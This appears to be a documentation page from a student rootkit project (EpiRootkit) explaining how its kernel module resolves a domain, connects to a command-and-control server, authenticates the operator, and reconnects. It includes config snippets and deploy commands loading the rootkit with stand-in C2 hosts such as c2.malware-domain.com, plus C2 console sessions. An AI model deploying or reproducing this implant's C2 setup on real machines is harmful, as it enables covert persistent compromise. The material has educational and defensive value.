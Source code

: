```yaml
---
title: "Connection & Authentication"
description: "How the rootkit connects to C2 server and authenticates"
icon: "link"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 503
---
```


# Connection & Authentication

How EpiRootkit connects to the C2 server and handles authentication with **domain support**.

## Connection Process

### Automatic Connection
When the rootkit loads, it automatically:

1. **Starts connection thread** (`epirootkit_conn`)
2. **Resolves domain** (if address is domain name) using kernel DNS
3. **Attempts TCP connection** to configured C2 server
4. **Begins keepalive system** (60-second ping/pong)
5. **Handles reconnection** with exponential backoff

### Configuration with Domain Support (🆕 Bonus Feature)
```c
// rootkit/core/config.h - Domain examples
#define C2_SERVER_ADDRESS "jules-c2.example.com"  // Domain name
#define C2_SERVER_PORT 4444
#define KEEPALIVE_INTERVAL_MS 60000
#define RECONNECT_DELAY_MS 5000

// Or traditional IP
#define C2_SERVER_ADDRESS "192.168.64.1"  // IP address
#define C2_SERVER_PORT 4444
```

### Runtime Parameters
Override config.h settings during deployment:
```bash
# Deploy with domain
sudo ./deploy_rootkit.sh address=secure.company.net port=443

# Deploy with IP
sudo ./deploy_rootkit.sh address=10.0.0.100 port=8080
```

## 🎯 DNS Resolution (Bonus Feature)

### How DNS Resolution Works
EpiRootkit includes a **kernel-space DNS resolver** for real rootkit behavior:

1. **Address parsing**: Module detects if parameter is IP or domain
2. **IP validation**: Uses `in4_pton()` to check IP format  
3. **DNS query**: If domain, constructs UDP DNS packet
4. **Google DNS**: Sends query to 8.8.8.8:53
5. **Response parsing**: Extracts A record from DNS response
6. **Connection**: Uses resolved IP for TCP connection

### DNS Implementation Features
- **Pure kernel implementation**: No userspace dependencies
- **Google DNS**: Reliable 8.8.8.8 DNS server

### DNS Resolution Example
```bash
# Module parameters with domain
sudo insmod epirootkit.ko address=c2.malware-domain.com port=443

# Kernel log output:
# [2025-05-25 16:13:09] EpiRootkit: Attempting connection to c2.malware-domain.com:443
# [2025-05-25 16:13:09] EpiRootkit: Resolving domain: c2.malware-domain.com
# [2025-05-25 16:13:10] EpiRootkit: Resolved c2.malware-domain.com to 203.0.113.42
# [2025-05-25 16:13:10] EpiRootkit: Connected to C2 server c2.malware-domain.com:443
```

## Network Architecture

### Four-Layer System
1. **DNS Resolution** (`dns_resolver.c`) - Domain name resolution
2. **Connection Management** (`connection.c`) - High-level coordination
3. **Keepalive System** (`keepalive.c`) - Health monitoring
4. **Socket Management** (`socket.c`) - Low-level network operations

### Connection States
- `0` = DISCONNECTED
- `1` = CONNECTED  
- `2` = CONNECTING

## Authentication System

### How It Works
1. **C2 sends command**: `auth Client-1 password`
2. **Rootkit receives**: Plain text password
3. **Rootkit hashes**: Using SHA-512 kernel crypto API
4. **Compares hash**: Against stored hash in config
5. **Returns result**: SUCCESS or ERROR

### Implementation
```c
// Default password is "password" (SHA-512 hash stored in config)
#define PASSWORD_HASH "b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86"
```

### Security Features
- **Rate limiting**: 5 attempts per 60 seconds
- **Session timeout**: 1 hour automatic expiry
- **Secure hashing**: SHA-512 using kernel crypto API

## Live Demo with Domain Support

### 1. Start C2 Server
```bash
cd attacking_program && pnpm start
```

### 2. Load Rootkit with Domain
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=c2.test-domain.com port=4444

# Or load directly
sudo insmod epirootkit.ko address=c2.test-domain.com port=4444
```

**C2 server shows:**
```
[2025-05-25 16:13:09] New client connected: Client-1
[2025-05-25 16:13:09] Client-1 status: UNAUTHENTICATED
```

**Kernel logs show DNS resolution:**
```bash
dmesg | tail -10
# [2025-05-25 16:13:09] EpiRootkit: Resolving domain: c2.test-domain.com
# [2025-05-25 16:13:09] EpiRootkit: Resolved c2.test-domain.com to 192.168.1.100
# [2025-05-25 16:13:09] EpiRootkit: Connected to C2 server c2.test-domain.com:4444
```

### 3. Check Connection
```bash
c2-server$ clients
# • Client-1 - UNAUTHENTICATED - Last seen: 6:13:09 PM
```

### 4. Authenticate
```bash
c2-server$ auth Client-1 password
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful
```

### 5. Verify Authentication
```bash
c2-server$ clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
```

## Keepalive System

### Purpose
- **Detect disconnections**: Network failures, system crashes
- **Maintain connection**: Regular ping/pong messages
- **Trigger reconnection**: When connection lost

### How It Works
- **Ping interval**: Every 60 seconds
- **Timeout detection**: 30 seconds for response
- **Failure threshold**: 3 consecutive failed pings
- **Automatic reconnection**: Exponential backoff (5s → 10s → 20s → 40s → 60s max)

### Monitoring
```bash
# Check keepalive status from C2
c2-server$ keepalive Client-1
# Keepalive Status:
# Last ping sent: 2025-05-25 16:14:00
# Last pong received: 2025-05-25 16:14:00
# Failed ping count: 0
# Connection stable: YES
```

## Reconnection Handling

### Disconnection Detection
1. **Socket-level**: Immediate network failures
2. **Keepalive timeout**: No response to ping
3. **Send failures**: Failed command results

### Reconnection Process
1. **Detect disconnection**
2. **Wait with backoff**: 5s → 10s → 20s → 30s (max)
3. **Attempt reconnection** (with DNS resolution if needed)
4. **Reset authentication**: Must re-authenticate after reconnect
5. **Resume operations**

### DNS-Aware Reconnection
```bash
# If domain was used initially, DNS resolution happens on each reconnection
# This allows for dynamic IP changes and failover scenarios

# Kernel logs during reconnection:
# [2025-05-25 16:20:00] EpiRootkit: Connection lost, attempting reconnection
# [2025-05-25 16:20:05] EpiRootkit: Resolving domain: backup-c2.example.com
# [2025-05-25 16:20:05] EpiRootkit: Resolved backup-c2.example.com to 203.0.113.100
# [2025-05-25 16:20:05] EpiRootkit: Reconnected to C2 server backup-c2.example.com:443
```
